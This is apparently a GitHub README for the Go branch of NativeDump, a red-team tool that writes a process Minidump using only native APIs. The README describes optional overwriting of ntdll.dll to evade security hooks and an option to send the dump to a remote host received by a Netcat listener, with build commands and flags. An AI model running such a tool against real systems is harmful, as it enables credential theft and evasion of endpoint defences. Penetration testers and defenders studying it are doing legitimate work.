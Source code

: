 # NativeDump - "golang-flavour" branch

This branch implements the same functionality as the main branch using Golang: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- Exfiltrate the file to another host (Optional)

You can run it as a script:

```
go build nativedump.go [-o OPTION] [-k PATH] [-i IP_ADDRESS] [-p PORT_ADDRESS]
```

![golang1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang1.png)


As an alternative, you can compile it to a binary using "go build":

 ```
go build && nativedump.exe
```

![golang2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang2.png)


You can use the *-o* parameter for overwriting the ntdll.dll library:
- "disk": Using a DLL already on disk. If *-k* parameter is not used the path is "C:\Windows\System32\ntdll.dll".
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. If *-k* parameter is not used the process is "c:\windows\system32\calc.exe"

You can use *-i* (IP address) and *-p* (port) parameters to exfiltrate the file to another host, not creating a local file.

In this example, the ntdll.dll library is overwritten from a debug process, the Minidump file is generated and exfiltrated to 192.168.1.72:1234:

![ntdlloverwrite](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang3.png)

The Netcat listener receives the file correctly:

![dumpfile](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang4.png)

